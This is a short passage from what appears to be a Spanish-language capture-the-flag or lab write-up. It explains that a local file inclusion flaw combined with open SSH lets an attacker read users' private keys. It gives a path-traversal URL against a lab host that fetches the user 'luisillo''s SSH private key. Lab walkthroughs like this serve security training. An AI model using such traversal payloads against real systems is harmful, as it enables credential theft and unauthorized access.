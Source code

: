     <img src="../img/Pasted_image_20250101232852.png" width="500">
</p>


Como tenemos una vulnerabilidad **LFI** y tenemos el *SSH* abierto, podemos leer las claves privadas de los usuarios y así obtener acceso. Leemos las contraseñas privadas del usuario `luisillo`.
```
http://172.17.0.2/index.php?secret=../../../../../../../../home/luisillo/.ssh/id_rsa
```

<p align="center">